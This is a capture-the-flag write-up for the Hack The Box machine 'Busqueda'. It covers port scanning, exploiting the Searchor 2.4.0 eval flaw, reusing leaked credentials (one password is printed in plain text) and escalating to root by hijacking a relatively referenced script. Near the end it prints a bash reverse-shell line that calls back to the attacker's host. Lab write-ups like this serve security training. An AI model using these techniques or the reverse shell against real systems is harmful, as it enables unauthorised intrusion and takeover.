# Busqueda - Easy

## User Flag

Target IP: **10.129.61.28**

Let's first start with a basic Nmap scan to get to know what ports are open on the target machine: 
```
sudo nmap --open 10.129.61.28 -vvv
```

From the output, we see that port 22 (SSH) and port 80 (http) is open. 
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-09 15:39 EDT
Initiating Ping Scan at 15:39
Scanning 10.129.61.28 [4 ports]
Completed Ping Scan at 15:39, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:39
Completed Parallel DNS resolution of 1 host. at 15:39, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 15:39
Scanning 10.129.61.28 [1000 ports]
Discovered open port 80/tcp on 10.129.61.28
Discovered open port 22/tcp on 10.129.61.28
Completed SYN Stealth Scan at 15:39, 0.23s elapsed (1000 total ports)
Nmap scan report for 10.129.61.28
Host is up, received reset ttl 63 (0.010s latency).
Scanned at 2026-09-09 15:39:03 EDT for 0s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.40 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1001 (40.048KB)
```

Now, let's navigate to ```http://10.129.61.28:80``` to see what kind of application is being hosted by the target machine.

Firefox tells us that it can't find the site. Let's add the url ```searcher.htb``` to our ```/etc/hosts``` file on our attack box and try again.


Now we see the website displayed on our browser. Navigating to the bottom, we also see that the website is powered by Flask and Searchor 2.4.0.


Since we have the version number of Searchor conveniently displayed for us, I looked for publicly listed vulnerabilities for Searchor 2.4.0. It turns out that Searchor 2.4.0 contains a critical arbitrary code execution vulnerability tracked as CVE-2023-43364, caused by a usage of Python's insecure function ```eval()``` to handle user input in ```src/searchor/main.py```. This vulnerability can be used to escape the string context and inject malicious code to be ran on the target system.

Let's intercept a request sent from us to the website and look at it closer. My instincts tell me that we can manipulate the 'query' paramter in the POST request. 


I could've continued with manual exploitation of the vulnerability, but looking online, I found a [PoC](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection) for CVE-2023-43364. I downloaded the exploit, ran it, and got a reverse shell back as the ```svc``` user.


Navigating to the home directory for this user, we can get the user flag. Nice!


## Root Flag

Let's dig around this machine more. I was interested in the directory the shell dropped us in: ```/var/www/app```. Running ```ls -la```, we see that there is a hidden ```.git``` directory, indicating a git repository. Let's look into it.


Running ```ls -la``` again in the ```.git``` directory immediately gets us some interesting results. One that catches my eye is the ```config``` file, which looks promising for valuable information.


Looking into the contents of the ```config``` file, two things stand out. A set of credentials are revealed, and a new virtual host: ```gitea.searcher.htb```, which we should immediately add to ```/etc/hosts``` on our attack box.




Let's navigate to the new url and log in with the new credentials we just found. After logging in, there was not anything particularly notable or useful to us at the moment, except for the fact that there was an ```administrator``` user we can maybe log into with a new set of credentials.



Returning back to enumerating the target machine for potential privilege escalation vectors, I ran ```sudo -l``` to check what the ```svc``` user could run as ```root```. It prompts us for a password, maybe we can use the password we found earlier for the ```svc``` user?



It works! The password we found for the Gitea account is also the password for the ```svc``` user on the target machine. We see something interesting in the output. We can run a python script with a random parameter as ```root```.



Before continuing further, I decided to try logging in as the ```svc``` user through ssh with our previously used password for a more stable shell connection. It worked!



Returning back to ```/opt/scripts/system-checkup.py```, we see that our current user does not have read or write permissions over the file, only execute. So let's execute it using ```sudo``` and see what happens.





We get three different options we can use to properly run the script. Let's try all of them.

The first option, ```docker-ps```, simply displays running docker containers. We see two containers, ```gitea``` and ```mysql_db```.



Moving onto the second option, ```docker-inspect``` gives us extra arguments to run the script with for this option. 



Let's inspect one of the containers we saw on the output of ```docker-ps```. ```mysql_db``` seems interesting, but since we know there is Gitea being hosted on the target machine, let's go with the ```gitea``` container. For the format argument, a quick search online tells us that we can use ```'{{json .}}'``` to get all data that can be printed. 

And they weren't lying about all data, there is a lot in this output. Maybe I should've used a different format argument.



Nonetheless, looking at the output, we find what we need: ```"GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh"```.

My instincts tell me that this could be the password for the ```administrator``` user we saw earlier in the Gitea instance, so let's try logging in.

Nice!



```administrator/Scripts``` is immediately eye-catching, so let's explore that. We see that this is the ```/opt/scripts``` directory on the target machine that we ran ```system-checkup.py``` from.



With our admin privileges, we can now analyze the source code for these scripts. Let's start with the script that we ran, ```system-checkup.py```.



Our vector is apparent now. When the python script is ran with the ```full-checkup``` option, it creates a subprocess with a previously defined ```run_command()``` function that takes in as an argument and runs ```./full-checkup.sh```. Now the intended functionality of the python script is obviously to run the ```full-checkup.sh``` script in the same directory as ```system-checkup.py```, but since it is referenced with a relative path, we can potentially create a new, malicious bash script with the same name in a directory we can write to have that script run instead. The dots are all connecting now. Additionally, since we can run ```system-checkup.py``` as `root`, ```full-checkup.sh``` will inherit that privilege. This can give us a reverse shell as ```root```.



Let's test this hypothesis out. I created a fake ```full-checkup.sh``` file in the ```svc``` user's home directory with this code that will initiate a connection back to our listener:

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.15.194/4445 0>&1
```

Now, running ```system-checkup.py``` in the ```svc``` user's home directory, we get a reverse shell back on our listener as ```root```.





Finally, navigating to the ```/root``` directory, we can get the root flag.



Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>


